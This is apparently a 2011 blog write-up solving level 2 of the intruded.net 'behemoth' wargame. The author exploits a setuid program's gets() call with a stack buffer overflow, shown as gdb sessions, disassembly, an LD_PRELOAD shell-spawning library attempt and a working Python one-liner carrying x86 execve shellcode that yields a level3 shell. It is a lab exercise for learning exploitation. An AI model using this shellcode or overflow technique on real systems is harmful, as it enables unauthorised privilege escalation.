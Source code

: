 Title: intruded.net, behemoth: level 2
Date: 2011/09/27 21:21
Author: Ken Ko
Tags: shellcode, intruded.net, x86, gdb, stack, behemoth
Category: tutorials

Trial and error: 

<code class="bash">
level2@behemoth:/tmp$ /wargame/level2
Password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Authentication failure.
Sorry.
Illegal instruction
level2@behemoth:/tmp$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | wc -c
93
</code>

Tried to have shellcode in an environment variable again... does not work out too well. 

Try again, slowly and with purpose.

<code>
level2@behemoth:/tmp$ objdump -d /wargame/level2 | grep @plt
080482b8 <seteuid@plt-0x10>:
080482c8 <seteuid@plt>:
080482d8 <gets@plt>:
080482e8 <__libc_start_main@plt>:
080482f8 <printf@plt>:
08048308 <__gmon_start__@plt>:
 804833c:       e8 a7 ff ff ff          call   80482e8 <__libc_start_main@plt>
 8048361:       e8 a2 ff ff ff          call   8048308 <__gmon_start__@plt>
 80483f7:       e8 cc fe ff ff          call   80482c8 <seteuid@plt>
 8048403:       e8 f0 fe ff ff          call   80482f8 <printf@plt>
 804840e:       e8 c5 fe ff ff          call   80482d8 <gets@plt>
 804841a:       e8 d9 fe ff ff          call   80482f8 <printf@plt>
level2@behemoth:/tmp$
</code>

After the <strong>seteuid</strong> we see the following functions are called with--allegedly--higher privilege: [1] <strong>printf</strong>, <strong>gets</strong>, <strong>printf</strong>. Interesting is that there's no <strong>strcmp</strong> to test whether the password is correct or invalid. Lame!

Trying another LD_PRELOAD trick:

<code>
level2@behemoth:/tmp$ cat /tmp/gets.c
#include <stdlib.h>

char * gets(char * s) {
        printf("help\n");
        system ("/bin/sh");
        printf("me\n");
}
level2@behemoth:/tmp$ !gcc
gcc -fPIC -shared -o gets gets.c
level2@behemoth:/tmp$ LD_PRELOAD="/tmp/gets" /wargame/level2
Password: lame.
Authentication failure.
Sorry.
level2@behemoth:/tmp$
</code>

Doesn't work :(

What's more annoying, though, is that the LD_PRELOAD works with gdb! Ugh.

<code>
(gdb) r
Starting program: /wargame/level2
Password: help
sh-3.1$ whoami
level2
sh-3.1$
</code>

Anyhow, let's try to go another route. Back to the buffer overflow? 

<code>
unset LD_PRELOAD
</code>

Unset that before going into gdb! 

<code>
Start it from the beginning? (y or n) y
Starting program: /wargame/level2
Password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBA
Authentication failure.
Sorry.

Program received signal SIGSEGV, Segmentation fault.
0x41424241 in ?? ()
(gdb) i r
eax            0x1f     31
ecx            0x8048553        134514003
edx            0xb7fe1448       -1208085432
ebx            0xb7fdfff4       -1208090636
esp            0xbffffa60       0xbffffa60
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0xb8000cc0       -1207956288
eip            0x41424241       0x41424241
eflags         0x10286  [ PF SF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb)
</code>

Nice. <strong>$eip</strong> is now overwritten. <em>Where do I point this?</em>

<code>
level2@behemoth:/tmp$ (python -c 'print "A" * 92'; cat) | /wargame/level2
Password: Authentication failure.
Sorry.

Illegal instruction
</code>

Something a bit more concise.

Disassemble main for some ideas:

<code>
(gdb) disas main
Dump of assembler code for function main:
0x080483d4 <main+0>:    push   %ebp
0x080483d5 <main+1>:    mov    %esp,%ebp
0x080483d7 <main+3>:    sub    $0x68,%esp
0x080483da <main+6>:    and    $0xfffffff0,%esp
0x080483dd <main+9>:    mov    $0x0,%eax
0x080483e2 <main+14>:   add    $0xf,%eax
0x080483e5 <main+17>:   add    $0xf,%eax
0x080483e8 <main+20>:   shr    $0x4,%eax
0x080483eb <main+23>:   shl    $0x4,%eax
0x080483ee <main+26>:   sub    %eax,%esp
0x080483f0 <main+28>:   movl   $0x3eb,(%esp)
0x080483f7 <main+35>:   call   0x80482c8 <seteuid@plt>
0x080483fc <main+40>:   movl   $0x8048528,(%esp)
0x08048403 <main+47>:   call   0x80482f8 <printf@plt>
0x08048408 <main+52>:   lea    0xffffffa8(%ebp),%eax
0x0804840b <main+55>:   mov    %eax,(%esp)
0x0804840e <main+58>:   call   0x80482d8 <gets@plt>
0x08048413 <main+63>:   movl   $0x8048534,(%esp)
0x0804841a <main+70>:   call   0x80482f8 <printf@plt>
0x0804841f <main+75>:   leave
0x08048420 <main+76>:   ret
0x08048421 <main+77>:   nop
0x08048422 <main+78>:   nop
0x08048423 <main+79>:   nop
0x08048424 <main+80>:   nop
0x08048425 <main+81>:   nop
0x08048426 <main+82>:   nop
0x08048427 <main+83>:   nop
0x08048428 <main+84>:   nop
0x08048429 <main+85>:   nop
0x0804842a <main+86>:   nop
0x0804842b <main+87>:   nop
0x0804842c <main+88>:   nop
0x0804842d <main+89>:   nop
0x0804842e <main+90>:   nop
0x0804842f <main+91>:   nop
</code>

What's important to us:

<code>
0x0804840e <main+58>:   call   0x80482d8 <gets@plt>
. . .
(gdb) b *0x0804840e
Breakpoint 1 at 0x804840e
(gdb) r
Starting program: /wargame/level2

Breakpoint 1, 0x0804840e in main ()
(gdb) i r
eax            0xbffffa00       -1073743360
ecx            0x8048532        134513970
edx            0xb7fe1448       -1208085432
ebx            0xb7fdfff4       -1208090636
esp            0xbffff9e0       0xbffff9e0
ebp            0xbffffa58       0xbffffa58
esi            0x0      0
edi            0xb8000cc0       -1207956288
eip            0x804840e        0x804840e <main+58>
eflags         0x286    [ PF SF IF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb)
</code>

Here's an idea: put some shellcode in <strong>$eax</strong> and redirect <strong>$eip</strong> to <strong>\x00\xfa\xff\xbf</strong>. 

<code>
level2@behemoth:/tmp$ (python -c 'print "\x90" * 20 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x1e\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xcd\x80\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x23\x41\x41\x41\x41\x42\x42\x42\x42" + "\x90" * 11 + "\x00\xfa\xff\xbf"'; cat) | /wargame/level2
Password: Authentication failure.
Sorry.
whoami
level3
</code>

<em>Nice</em>! I don't know why there's no $ or # indicator for the shell but that's probably a .bashrc problem--or something similar. Inconsequential for my purposes, though.

Onwards!

